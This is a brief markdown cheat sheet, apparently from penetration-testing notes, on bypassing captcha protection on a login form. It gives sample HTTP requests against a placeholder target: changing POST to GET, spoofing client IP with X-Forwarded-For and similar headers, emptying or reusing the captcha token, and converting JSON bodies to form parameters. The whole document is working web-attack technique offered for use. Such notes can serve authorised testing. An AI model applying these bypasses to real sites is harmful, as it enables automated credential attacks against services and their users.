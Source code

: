 # Bypass Captcha

1. Try changing the request method, for example POST to GET
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123

GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
[...]
```
## Custom header 
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
## Remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=&_Username=daffa&_Password=test123
```

## Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

## Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]
{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```


